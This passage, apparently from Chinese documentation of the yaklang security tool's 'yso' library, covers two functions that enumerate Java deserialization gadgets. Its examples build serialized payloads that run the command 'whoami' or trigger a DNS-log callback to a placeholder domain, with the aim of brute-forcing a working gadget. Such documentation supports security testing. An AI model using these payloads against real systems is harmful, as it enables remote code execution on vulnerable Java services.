 ## 示例代码

### 基础用法

遍历所有RuntimeExecGadget并执行命令

```yaklang
command := "whoami"
for _, gadget := range yso.GetAllRuntimeExecGadget() {
    javaObj, err := gadget(command)
    if javaObj == nil || err != nil {
        continue
    }
    objBytes, err := yso.ToBytes(javaObj)
    if err != nil {
        continue
    }
    // 发送 objBytes
}
```

## 17. `yso.GetAllTemplatesGadget`

## 功能描述

获取所有支持模板的Gadget，可用于爆破 gadget

## 参数说明

```
func GetAllTemplatesGadget() => []TemplatesGadget
```

**请求参数**


**返回类型**

- `r1` : 返回所有支持模板的Gadget的数组

## 示例代码

### 基础用法

使用 GetAllTemplatesGadget 获取所有支持模板的 Gadget，并进行相应操作

```yaklang
for _, gadget := range yso.GetAllTemplatesGadget() {
	domain := "xxx.dnslog" // dnslog 地址
	javaObj, err := gadget(yso.useDNSLogEvilClass(domain))
	if javaObj == nil || err != nil {
		continue
	}
	objBytes, err := yso.ToBytes(javaObj)
	if err != nil {
		continue
	}
	// 发送 objBytes
}
```
